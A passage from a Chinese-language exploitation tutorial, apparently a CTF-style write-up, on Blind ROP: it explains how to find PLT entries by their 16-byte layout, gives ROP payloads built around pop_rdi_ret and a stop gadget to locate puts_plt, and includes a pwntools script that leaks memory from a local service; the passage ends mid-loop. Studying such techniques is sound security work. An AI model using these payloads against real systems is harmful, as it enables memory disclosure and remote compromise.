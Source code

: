 因此，目前要实现`write(param1, param2, param3)`仅剩一步：获取`write()`的地址，也就是`write_plt()`的地址。（`strcmp()`一样，都在`plt`表里面）

#### 寻找PLT表

寻找`plt`表的目的是，找出其中的`write_plt`或者是`puts_plt`等便于我们使用。

来看看`plt`表：

![image-20221210211419513](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202212102114754.png)

我们知道`plt`表中的三行，第一行是去`got`表查看（假如`got`表还没有，就是跳到下一行），第二三行是查找地址的意思。字节数可以看到分别是六字节、五字节、五字节，加起来十六字节。

每一个`plt`表项是16字节。因此，假如发现了**一系列的**长度为16的没有使得程序崩溃的代码段，那么很有可能遇到了`plt`表。此外，还可以通过前后偏移6字节来判断出于`plt`表中间还是出于开头（可以看到前6个字节是第一行，也就是去找`got`，因此在开头的话偏移6个字节是不会崩溃的）。

只要找到了`plt`表，我们遍历`plt`表即可获得里面的函数地址。

找到`puts(param1)`是比较简单的，如下面的`payload`：

```python
payload = 'A'*length +p64(pop_rdi_ret)+p64(0x400000)+p64(addr)+p64(stop_gadget)
```

若`addr`处是`puts`函数，那么将会输出`0x400000`处的7个非零字节（`\x7fELF`）。

这里补充写一下，假**如`puts_plt`是`plt`表中的第一个函数，那么在`puts_plt`之前的地址开始调用，也可能会调用到`puts`**。怎么找到`puts_plt`的开头地址呢？

可以使用两个`payload`，一个是上面那个，另一个是：

```python
payload = 'A'*length +p64(pop_rdi_ret)+p64(0x400000)+p64(addr+6)+p64(stop_gadget)
```

只要两个`payload`都会输出`\x7fELF`，那么说明肯定此时`addr`就是`put_plt`开头了。

而`write(file* fp, param2, param3)`的第一个参数是文件描述符，我们需要找到文件描述符的值。这个比较麻烦，`wiki`上面是这么说的：

![image-20221210212904866](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202212102129783.png)

到这里，我们已经可以控制输出函数，那么我们便可以输出`.text`段的其它内容或者是其它`gadgets`，并找到其他函数，以便于完成攻击。

另一个常用思路是，根据获取的`puts`等`plt`表函数获取`got`表的内容，然后依次以此泄露`libc`版本来使用其他函数。使用`puts_plt`将从`0x400000`开始的`1k`个字节全部保存到文件，然后使用`ida`反编译即可查看。这里写一下代码和效果：

```python
def leak(length, pop_rdi_ret, puts_plt, leak_addr, stop_gadget):
    sh = remote('127.0.0.1', 10001)
    payload = length*b'a' + p64(pop_rdi_ret) + p64(leak_addr) + p64(puts_plt) + p64(stop_gadget)
    sh.recvuntil('password?\n')
    sh.sendline(payload)
    try:
        data = sh.recv()
        sh.close()
        if b'WelCome' in data:
            data = data[:data.index(b"\nWelCome")]
        else:
            data = data
        if data == b"":
            data = b'\x00'
        return data
    except Exception:
        sh.close()
        info('failure in {}'.format(leak_addr))
        return None
    
if __name__ == '__main__':
    result = b""
    addr = 0x400000
    while addr < 0x401000:
        info("starting to deal {}".format(hex(addr)))
```
